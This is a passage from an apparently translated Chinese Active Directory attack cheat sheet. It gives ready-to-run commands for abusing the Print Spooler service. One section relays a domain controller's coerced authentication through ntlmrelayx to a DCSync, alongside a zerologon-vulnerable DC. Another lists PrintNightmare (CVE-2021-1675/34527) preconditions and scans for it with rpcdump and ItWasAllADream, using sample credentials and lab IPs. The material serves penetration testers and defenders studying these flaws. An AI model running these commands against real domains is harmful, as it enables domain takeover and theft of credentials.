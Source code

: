   * 一个运行`PrintSpooler`服务的DC

  * 另一个易受zerologon攻击的DC

  * `ntlmrelayx` - 来自Impacket和任何工具，如[`printerbug.py`](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

    ```powershell
    # 检查一个DC是否运行PrintSpooler服务
    rpcdump.py 10.10.10.10 | grep -A 6 "spoolsv"
    
    # 在一个shell中设置ntlmrelay
    ntlmrelayx.py -t dcsync://DC01.LAB.LOCAL -smb2support
    
    #在第二个shell中触发printerbug
    python3 printerbug.py 'LAB.LOCAL'/joe:Password123@10.10.10.10 10.10.10.12
    ```

  ### PrintNightmare

  > CVE-2021-1675 / CVE-2021-34527

  DLL将被存储在`C:\Windows\System32\spool\drivers\x64\3\`。
  漏洞将执行来自本地文件系统或远程共享的DLL。

  要求：

  * **Spooler Service** 启用（强制性）
  * 补丁更新前的< June 2021的服务器
  * 具有`Pre Windows 2000 Compatibility`组的DC
  * 服务器具有注册表键 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = (DWORD) 1
  * 服务器具有注册表键 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = (DWORD) 0

  **检测漏洞**：

  * Impacket - [rpcdump](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/rpcdump.py)

    ```ps1
    python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
    Protocol: [MS-RPRN]: Print System Remote Protocol
    ```

  * [It Was All A Dream](https://github.com/byt3bl33d3r/ItWasAllADream) 

    ```ps1
    git clone https://github.com/byt3bl33d3r/ItWasAllADream
    cd ItWasAllADream && poetry install && poetry shell
    itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
    docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
    ```
